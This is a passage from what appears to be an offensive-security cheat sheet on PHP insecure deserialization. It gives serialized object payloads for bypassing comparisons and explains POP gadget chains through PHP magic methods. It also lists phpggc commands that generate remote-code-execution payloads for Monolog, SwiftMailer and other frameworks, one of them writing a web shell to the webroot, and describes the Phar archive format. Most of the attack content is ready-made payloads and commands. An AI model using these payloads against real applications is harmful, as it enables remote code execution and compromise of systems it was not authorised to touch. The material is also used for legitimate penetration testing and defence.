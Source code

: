 Payload:

```php
O:6:"Object":2:{s:10:"secretCode";N;s:4:"guess";R:2;}
```

We can do an array like this:

```php
a:2:{s:10:"admin_hash";N;s:4:"hmac";R:2;}
```

## Finding and using gadgets

Also called `"PHP POP Chains"`, they can be used to gain RCE on the system.

* In PHP source code, look for `unserialize()` function.
* Interesting [Magic Methods](https://www.php.net/manual/en/language.oop5.magic.php) such as `__construct()`, `__destruct()`, `__call()`, `__callStatic()`, `__get()`, `__set()`, `__isset()`, `__unset()`, `__sleep()`, `__wakeup()`, `__serialize()`, `__unserialize()`, `__toString()`, `__invoke()`, `__set_state()`, `__clone()`, and `__debugInfo()`:
    * `__construct()`: PHP class constructor, is automatically called upon object creation
    * `__destruct()`: PHP class destructor, is automatically called when references to the object are removed from memory
    * `__toString()`: PHP call-back that gets executed if the object is treated like a string
    * `__wakeup()` PHP call-back that gets executed upon deserialization

[ambionics/phpggc](https://github.com/ambionics/phpggc) is a tool built to generate the payload based on several frameworks:

- Laravel
- Symfony
- SwiftMailer
- Monolog
- SlimPHP
- Doctrine
- Guzzle

```powershell
phpggc monolog/rce1 'phpinfo();' -s
phpggc monolog/rce1 assert 'phpinfo()'
phpggc swiftmailer/fw1 /var/www/html/shell.php /tmp/data
phpggc Monolog/RCE2 system 'id' -p phar -o /tmp/testinfo.ini
```

## PHP Phar Deserialization

Using `phar://` wrapper, one can trigger a deserialization on the specified file like in `file_get_contents("phar://./archives/app.phar")`.

A valid PHAR includes four elements:

1. **Stub**: The stub is a chunk of PHP code which is executed when the file is accessed in an executable context. At a minimum, the stub must contain `__HALT_COMPILER();` at its conclusion. Otherwise, there are no restrictions on the contents of a Phar stub.
2. **Manifest**: Contains metadata about the archive and its contents.
3. **File Contents**: Contains the actual files in the archive.
4. **Signature**(optional): For verifying archive integrity.
